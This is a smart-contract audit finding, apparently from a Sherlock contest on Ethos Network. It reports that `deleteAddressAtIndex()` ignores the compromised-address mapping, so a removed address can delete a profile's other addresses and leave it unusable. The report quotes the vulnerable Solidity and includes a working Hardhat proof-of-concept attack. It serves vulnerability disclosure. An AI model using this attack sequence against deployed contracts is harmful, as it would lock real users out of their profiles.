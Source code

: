 Warm Rosewood Stork

High

# A compromised address can remove all other addresses from the profile and cause permanent DoS

### Summary

A compromised address can remove all other addresses from the profile and cause permanent DoS

### Root Cause

In `deleteAddressAtIndex()` function, the `isAddressCompromised[]` mapping isn't checked, which means a compromised addressed can delete any address from the profile. 

https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415

```solidity

  function deleteAddressAtIndex(uint256 addressIndex) external whenNotPaused {
    uint256 profileId = profileIdByAddress[msg.sender];
    (bool verified, bool archived, bool mock) = profileStatusById(profileId);
    if (!verified) {
      revert ProfileNotFoundForAddress(msg.sender);
    }
    if (archived || mock) {
      revert ProfileAccess(profileId, "Profile is archived");
    }

    address[] storage addresses = profiles[profileId].addresses;
    address[] storage removedAddresses = profiles[profileId].removedAddresses;
    if (addresses.length <= addressIndex) {
      revert InvalidIndex();
    }

    address addressStr = addresses[addressIndex];
    isAddressCompromised[addressStr] = true;
    _addressShouldDifferFromSender(addressStr);

    _deleteAddressAtIndexFromArray(addressIndex, addresses, removedAddresses);

    emit AddressClaim(profileId, addressStr, AddressClaimStatus.Unclaimed);
  }
```


### Internal pre-conditions

NA

### External pre-conditions

NA

### Attack Path

1. One of the address of a profile gets compromised and is removed
2. The malicious owner of the compromised address can kick out the original owner's other addresses from the profile, making it unusable

### Impact

DoS

### PoC

```solidity

    it.only('POC', async () => {
      const { ethosProfile, PROFILE_CREATOR_0, EXPECTED_SIGNER, OTHER_0, OTHER_1, OWNER } =
        await loadFixture(deployFixture);

      const profileId = String(2);
      let rand = '123';
      let signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );

      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);

      rand = '456';
      signature = await common.signatureForRegisterAddress(
        OTHER_1.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_1.address, profileId, rand, signature);

      let addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(3, 'should be 3 addresses');

      // delete address at index 2
      await ethosProfile.connect(PROFILE_CREATOR_0).deleteAddressAtIndex(2);

      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(2, 'should be 2 addresses');
      expect(addresses[0]).to.be.equal(PROFILE_CREATOR_0.address, 'wrong address[0]');
      expect(addresses[1]).to.be.equal(OTHER_0.address, 'wrong address[1]');

      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(1);
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(0);
      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(0, 'should be 0 addresses');


    });
 ```

### Mitigation

Check for this mapping